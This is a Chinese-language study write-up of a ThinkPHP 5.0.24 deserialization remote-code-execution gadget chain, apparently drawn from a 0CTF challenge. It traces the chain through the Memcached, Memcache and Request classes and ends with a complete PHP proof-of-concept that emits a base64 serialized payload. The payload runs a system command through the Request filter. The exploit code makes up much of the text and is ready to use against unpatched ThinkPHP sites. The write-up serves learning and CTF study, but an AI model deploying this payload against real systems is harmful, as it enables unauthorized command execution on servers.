

# Thinkphp5.0.24 反序列化rce链学习

这个链子是出现在9月份的0CTF中，一直没来得及学习，今天晚上抽出时间来看一下这个链子。

之前的5.0.x版本的反序列化链是写文件getshell，需要有一个可写的目录才行，而这条新链子不需要写文件，直接可以rce。


# 分析

整个链子的前部分后后部分都是老套路了，只是中间的部分稍微改了一下。

链子的前部分和老链子一模一样：https://blog.csdn.net/rfrder/article/details/114644844、

在运行到`thinkphp/library/think/session/driver/Memcached.php`的`write()`方法的时候：

```php
    public function write($sessID, $sessData)
    {
        return $this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire']);
    }
```

这里的`$this->handler`用的是另外的一个类：`thinkphp/library/think/cache/driver/Memcache`的`set`方法：

```php
    public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        if ($expire instanceof \DateTime) {
            $expire = $expire->getTimestamp() - time();
        }

        if ($this->tag && !$this->has($name)) { 
            $first = true;
        }
        $key = $this->getCacheKey($name);
        if ($this->handler->set($key, $value, 0, $expire)) {
            isset($first) && $this->setTagItem($key);
            return true;
        }
        return false;
    }
```

在`if ($this->tag && !$this->has($name)) { `中进入`has`方法：

```php
    public function has($name)
    {
        $key = $this->getCacheKey($name);
        return false !== $this->handler->get($key);
    }
```

`getCacheKey()`则是进行一个拼接的操作：`return $this->options['prefix'] . $name;`，全都可控，然后调用`$this->handler->get($key);`。如果`handler`是`Request`类的话，接下来肯定都不用再说了，tp最最最熟悉的一个类的，rce的起源。


```php
    public function get($name = '', $default = null, $filter = '')
    {
        if (empty($this->get)) {
            $this->get = $_GET;
        }
        if (is_array($name)) {
            $this->param      = [];
            $this->mergeParam = false;
            return $this->get = array_merge($this->get, $name);
        }
        return $this->input($this->get, $name, $default, $filter);
    }
```

控一下`$this->get`，之后就是最最最熟悉的input方法了，在里面调用`$this->filterValue($data, $name, $filter);`实现rce，就不再提了。


具体的细节自己操作研究一下叭，在老链的基础上改出的POC如下：

```php
<?php
namespace think\process\pipes{

    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct()
        {
            $this->files[]=new Pivot();
        }
    }
}
namespace think{

    use think\console\Output;
    use think\model\relation\HasOne;

    abstract class Model{
        protected $append = [];
        protected $error;
        protected $parent;
        public function __construct()
        {
            $this->append[]="getError";
            $this->error=new HasOne();
            $this->parent=new Output();
        }
    }
}
namespace think\model\relation{

    use think\db\Query;

    class HasOne{
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct()
        {
            $this->selfRelation=false;
            $this->query=new Query();
            $this->bindAttr=array(
                '123'=>"feng"
            );
        }

    }
}
namespace think\db{

    use think\console\Output;

    class Query{
        protected $model;
        public function __construct()
        {
            $this->model=new Output();
        }
    }
}
namespace think\console{

    use think\session\driver\Memcached;

    class Output{
        private $handle;
        protected $styles = [
            'info',
            'error',
            'comment',
            'question',
            'highlight',
            'warning',
            "getAttr"
        ];
        public function __construct()
        {
            $this->handle=new Memcached();
        }
    }
}
namespace think\session\driver{


    use think\cache\driver\Memcache;

    class Memcached{
        protected $handler;
        protected $config  = [
            'host'         => '127.0.0.1', // memcache主机
            'port'         => 11211, // memcache端口
            'expire'       => 3600, // session有效期
            'timeout'      => 0, // 连接超时时间（单位：毫秒）
            'session_name' => '', // memcache key前缀
            'username'     => '', //账号
            'password'     => '', //密码
        ];
        public function __construct()
        {
            $this->handler=new Memcache();
        }
    }
}
namespace think\cache\driver{


    use think\Request;

    class Memcache{
        protected $options = [
            'prefix'=>'feng/'
        ];
        protected $tag="feng";
        protected $handler ;
        public function __construct(){
            $this->handler = new Request();
        }

    }
}
namespace think{
    class Request{
        protected $get = array(
            "feng" =>'dir'
        );
        protected $filter = 'system';
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }
}

namespace{
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```




# 参考链接

[https://igml.top/2021/09/28/2021-0CTF-FINAL/](https://igml.top/2021/09/28/2021-0CTF-FINAL/)

